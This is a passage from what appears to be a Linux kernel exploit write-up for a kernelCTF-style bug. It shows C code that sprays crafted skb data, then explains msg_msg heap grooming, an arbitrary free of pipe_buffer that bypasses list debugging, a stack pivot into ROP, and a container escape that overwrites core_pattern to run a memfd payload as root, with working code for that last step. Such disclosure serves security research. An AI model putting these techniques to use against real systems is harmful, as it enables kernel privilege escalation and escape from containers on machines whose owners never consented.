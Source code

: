```c
	// Craft skb->head and skb->end to control skb_shinfo pointer
	for (int i = 0; i < 0x10; i++)
	{
		*(size_t *)&spray_data[i * 0x100 + 0xc8] = PHYS_ADDR_MSG; // skb->head
		*(size_t *)&spray_data[i * 0x100 + 0xc0] = 0x42;		  // skb->end
	}
    ...
}
```

## msg_msg exploit technique
This primitive let us to partially overwrite msg.m_list.next of the msg we spray with `0000`. It will make two msg_msg in different message queue
point to the same msg_msg object.
After the bug is trigerred, exploit continue to check and find if there's corrupted message in the queues. We traverse every message
in every queue to check its identifier. We retrieve j-th msg in i-th queue, then check with the identifier stored in retrieved msg object,
if it's not same then we know this msg that will act as "victim" msg, because this msg pointed by another two msg (by mlist.next) and we can
perform msg_msg "feng shui" here.

Exploit continue to perform "feng shui" on msg_msg object. First we leak kernel heap address for prepared ROP address and pipe_buffer address at
kmalloc-1024. Then, we perform known arbitrary free on pipe_buffer technique using `msg.security` and bypass `list_del` (with CONFIG_DEBUG_LIST=y)
(https://github.com/star-sg/security-research/blob/CVE-2023-4622/pocs/linux/kernelctf/CVE-2023-3390_lts_cos_mitigation/docs/novel-techniques.md#config_debug_list-leading-to-expand-vulnerabilitys-capability).

We overwrite pipe_buffer object with stack pivot gadget, and after we closed all the pipes it will execute stack pivot gadget and finally landed on ROP gadget that generated before.

## Achieve container escape.

Once we control the kernel RIP we crafted ROP to cause core_pattern being overwritten to `|/proc/%P/fd/666`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
    // Check if /proc/sys/kernel/core_pattern has been overwritten
    char buf[0x100] = {};
    int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
    read(core, buf, sizeof(buf));
    close(core);
    return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
    int memfd = memfd_create("", 0);
    SYSCHK(sendfile(memfd, open("root", 0), 0, 0xffffffff));
    dup2(memfd, 666);
    close(memfd);
    while (check_core() == 0)
        sleep(1);
    *(size_t *)0 = 0;
}
```
